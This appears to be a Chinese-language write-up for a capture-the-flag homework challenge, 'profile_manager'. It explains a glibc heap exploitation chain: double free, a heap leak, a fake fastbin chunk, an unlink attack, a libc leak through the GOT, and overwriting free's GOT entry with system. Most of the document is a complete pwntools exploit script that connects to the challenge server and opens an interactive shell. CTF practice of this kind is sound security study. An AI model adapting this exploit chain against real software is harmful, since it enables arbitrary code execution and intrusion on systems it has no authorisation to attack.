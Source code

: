 # Software Security Hw04 - profile_manager

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
FORTIFY:  Enabled
```

這題在 ```edit_profile()``` 內可以做到double free 並可偽造一份 fake fastbin chunk, 另外也可利用fastbin的特性利用```show_profile()```leak出heap的位置

我們可以利用```malloc```的特性當 ```malloc(0x80) ~ malloc(0x88)``` glibc都會分配大小0x90的chunk, 可以改寫到連續記憶體中下個chunk的pre_size

再加上上面提到可以偽造一份fastbin chunk我們便可以做到改寫任一塊chunk的inused bit，到此為止我們就可以執行 unlink attack了。

之後就會發現目標```p[n].desc``` 此時已經指向```&(p[n-1].desc)```

我們就可以寫入got位置進行leak glibc的位置在改寫```free_got```為```system```的位置，達到拿取Shell

以下為解題script
```python
#!/usr/bin/env python

from pwn import *

#if args['reomte']:
r = remote('csie.ctf.tw', 10140)
#else:
#    r = process('./profile_manager')

def add_profile(name, age, size ,context):
    r.recvuntil(':')
    r.send("1")
    r.recvuntil(':')
    r.send(name)
    r.recvuntil(':')
    r.sendline(str(age))
    r.recvuntil(':')
    r.send(str(size))
    r.recvuntil(':')
    r.send(context)

def show_profile(index):
    r.recvuntil(':')
    r.send('2')
    r.recvuntil(':')
    r.send(str(index))

def edit_profile(index, name, age, context):
    r.recvuntil(':')
    r.send('3')
    r.recvuntil(':')
    r.send(str(index))
    r.recvuntil(':')
    r.send(name)
    r.recvuntil(':')
    r.sendline(str(age))
    r.recvuntil(':')
    r.send(context)

def del_profile(index):
    r.recvuntil(':')
    r.send('4')
    r.recvuntil(':')
    r.send(str(index))

def edit_profile_failed(index):
    r.recvuntil(':')
    r.send('3')
    r.recvuntil(':')
    r.send(str(index))
    r.recvuntil(':')
    r.send('\x00')


add_profile('0', 0x20, 0x98, '0'*143)
add_profile('1', 0x20, 0x98, '1'*0x88 + '\x20')


free_got = 0x602018
p3_desc = 0x602140

# overlap fastbin
edit_profile_failed(1)
edit_profile_failed(0)

show_profile(0)
r.recvuntil(':')
heap = u64(r.recvuntil('\n')[1:-1].ljust(8,'\x00')) -0xc0
r.recvuntil(':')
r.recvuntil(':')

print "heap", hex(heap)

edit_profile(1, p64(heap+0x218), 0x20, '1'*0x88 + '\x20')

add_profile('/bin/sh\x00', 0x20, 0x98, '0'*0x90 + '\x20')
add_profile('/bin/sh\x00', 0x20, 0x98, '0'*0x90 + '\x20')


add_profile( '\xa0' + '\x00', 0x20, 0x98, '0'*0x90)

edit_profile(2, '/bin/sh\x00', 0x20, p64(0x30) + p64(0x91) 
	+ p64(p3_desc-0x18) + p64(p3_desc-0x10) + '0'*0x70 + '\x90')

del_profile(3)

edit_profile(2, '/bin/sh\x00', 0x20, p64(free_got))
r.recvuntil(':')

show_profile(1)

r.recvuntil(':')
r.recvuntil(':')
r.recvuntil(':')
libc = u64(r.recvuntil('\n')[1:-1].ljust(8, '\x00')) - 0x0844f0
system = 0x0000000000045390
print "libc ", hex(libc)

edit_profile(1, '/bin/sh\x00', 0x20, p64(libc+system))

r.recvuntil(':')
del_profile(2)

r.interactive()






```